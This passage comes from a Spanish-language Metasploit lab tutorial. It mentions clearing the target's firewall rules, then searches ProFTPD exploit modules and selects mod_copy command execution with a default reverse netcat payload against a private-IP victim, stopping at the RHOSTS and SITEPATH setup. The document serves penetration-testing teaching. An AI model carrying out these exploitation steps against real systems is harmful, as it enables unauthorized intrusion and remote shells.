 Y con esto se borraran todas las reglas `firewall`.

Ahora saldremos de la `shell` con `Ctrl+C` dandole a `y` para abortar la sesion y pondremos `back` para salirnos del `exploit`, probaremos con otra vulnerabilidad que vimos anteriormente del `FTP`.

```shell
search proftpd
```

Info:

```
Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/ftp/proftpd_133c_backdoor
```

Vemos que hay unas cuantas, pero en concreto elegiremos el numero `4` que se llama `exploit/unix/ftp/proftpd_modcopy_exec` ya que en la version pone que es la `1.3.5` que es justo la version que vimos en la maquina victima, por eso elegimos ese.

```shell
use exploit/unix/ftp/proftpd_modcopy_exec
```

Una vez estando dentro del `exploit`, nos pondra un mensaje que es el siguiente:

```
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
```

Nos esta diciendo que ya viene un `payload` configurado por defecto, pero que se lo podremos cambiar de forma manual, en algunos `exploits` viene por defecto y no hace falta cambiarlos y en otros si.

Una vez estemos dentro del `exploit`, tendremos que configurarlo de la siguiente forma:

```shell
set RHOSTS 192.168.16.129
set SITEPATH /var/www/html
```
